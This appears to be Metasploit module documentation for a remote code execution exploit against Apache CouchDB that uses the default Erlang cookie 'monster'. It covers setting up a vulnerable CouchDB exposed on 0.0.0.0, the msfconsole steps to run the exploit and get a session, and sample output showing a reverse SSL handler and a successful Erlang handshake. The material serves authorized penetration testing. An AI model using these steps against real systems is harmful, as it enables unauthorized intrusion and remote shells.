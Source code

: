 Update the permissions for the ini files:
`chmod 0644 /opt/couchdb/etc/*`

Change the bind address of [chttpd] and [httpd] in `</path/to/couchdb/>etc/default.ini` from 127.0.0.1 to 0.0.0.0 or
or whatever you prefer
```
[httpd]
port = 5986
bind_address = 0.0.0.0
[chttpd]
; These settings affect the main, clustered port (5984 by default).
port = 5984
bind_address = 0.0.0.0
```

You can start the CouchDB server by running:
`sudo -i -u couchdb couchdb/bin/couchdb`

Navigate to `http://<IP-ADDRESS>:5984/_utils/` to verify the install

#### Windows

Download the following installer:
`https://archive.apache.org/dist/couchdb/binary/win/2.3.1/apache-couchdb-2.3.1.msi`

Click the installer to launch, accept the licensing agreement. CouchDB should now be installed.

Change the bind address of [chttpd] and [httpd] in `</path/to/couchdb/>etc/default.ini` from 127.0.0.1 to 0.0.0.0 or
or whatever you prefer
```
[httpd]
port = 5986
bind_address = 0.0.0.0
[chttpd]
; These settings affect the main, clustered port (5984 by default).
port = 5984
bind_address = 0.0.0.0
```
Navigate to `http://<IP-ADDRESS>:5984/_utils/` to verify the install

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/apache_couchdb_erlang_rce`
1. Set the `RHOST` and `LHOST` values
1. `exploit`
1. Verify: That you receive a session as the user that is running the ApacheDB application.

## Scenarios
### Target: Unix Command, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
```